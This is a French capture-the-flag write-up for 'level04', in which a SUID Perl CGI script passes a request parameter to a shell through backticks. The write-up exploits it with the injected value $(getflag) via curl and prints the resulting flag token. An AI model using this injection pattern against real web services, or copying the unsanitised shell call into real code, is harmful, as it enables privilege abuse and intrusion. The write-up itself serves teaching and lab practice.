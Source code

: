 # Niveau 04 - Exploitation par Injection de Commande Web

## Aperçu du défi
Le niveau 04 nous présente un script Perl (`level04.pl`) qui :

- Possède les permissions SUID (Set User ID) définies pour `flag04`.
- Fonctionne comme un simple script de serveur web.
- Est vulnérable à l'injection de commande.

## Analyse du fichier

### Permissions
```bash
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
```
### Observations clés :

- Le `s` dans les permissions indique que le bit SUID est activé.
- Le script s'exécute avec les privilèges de `flag04` lorsqu'il est exécuté.
- Il appartient à `flag04` mais est exécutable par les utilisateurs de `level04`.

## Analyse du contenu du script
```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  # Exécute la commande shell et affiche sa sortie (stdout et stderr)
  print `echo $y 2>&1`;
}
# Appelle la fonction x avec le paramètre 'x' de la requête HTTP
x(param("x"));
```
### Comprendre le script
Le script :

- Est une application web : Tourne sur `localhost:4747` (basé sur le commentaire).
- Utilise CGI : CGI (Common Gateway Interface) est un protocole permettant aux serveurs web d'exécuter des scripts.
- Prend une entrée utilisateur : Utilise `param("x")` pour obtenir un paramètre nommé "x" des requêtes HTTP.
- Exécute des commandes shell : Les accents graves (`) en Perl exécutent des commandes shell.
- N'a pas de validation d'entrée : Prend l'entrée utilisateur et la passe directement à une commande shell.

### Explication de la vulnérabilité
La vulnérabilité est une injection de commande classique :

- Le script prend un paramètre utilisateur ("x").
- Passe ce paramètre directement à une commande shell (`echo $y 2>&1`).
- Sans aucune désinfection ou validation.
- Et exécute cette commande avec les privilèges élevés de `flag04`.

## Étapes d'exploitation

### 1. Identifier le service web
Le commentaire `# localhost:4747` indique que le script fonctionne comme un serveur web sur le port 4747.

### 2. Fabriquer un code d'exploitation d'injection de commande
Puisque le script exécute des commandes shell avec l'entrée utilisateur, nous pouvons utiliser la syntaxe shell pour injecter nos propres commandes :
```bash
$(getflag)
```

Cela fera exécuter au script :
```bash
echo $(getflag) 2>&1
```

La syntaxe `$()` indique au shell d'exécuter `getflag` et de substituer sa sortie.

### 3. Envoyer la requête d'exploitation
Utilisation de `curl` pour envoyer la requête HTTP avec notre code d'exploitation :
```bash
curl "http://localhost:4747/level04.pl?x=\$(getflag)"
```
*(Note : Le `\` avant `$` est nécessaire pour empêcher le shell local d'interpréter `$(getflag)` avant que `curl` ne l'envoie)*

### 4. Résultat
```plaintext
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

## Pourquoi cela fonctionne

- Le script fonctionne comme un serveur web écoutant sur le port 4747.
- Il prend le paramètre "x" et le passe à une commande shell.
- Lorsque nous injectons `$(getflag)`, le shell exécute `getflag`.
- Parce que le script a les permissions SUID, `getflag` s'exécute avec les privilèges de `flag04`.
- La sortie de `getflag` est retournée dans la réponse HTTP.

## Leçons de sécurité

- **Validation des entrées** : Ne jamais faire confiance aux entrées utilisateur ; toujours les valider et les désinfecter.
- **Injection de commande** : Éviter de passer directement les entrées utilisateur aux commandes shell.
- **Scripts SUID** : Perl (et d'autres interpréteurs de script) ignorent souvent les bits SUID pour des raisons de sécurité, mais dans ce cas, l'injection de commande s'exécute toujours avec des privilèges élevés car c'est le shell invoqué qui exécute la commande injectée.
- **Sécurité Web** : Les applications web nécessitent une attention particulière à la sécurité car elles sont directement accessibles aux utilisateurs.

## Solution complète

```bash
# Se connecter au serveur web et injecter la commande getflag
curl "http://localhost:4747/level04.pl?x=\$(getflag)"

# Sortie attendue : Check flag.Here is your token: ne2searoevaevoem4ov4ar8ap
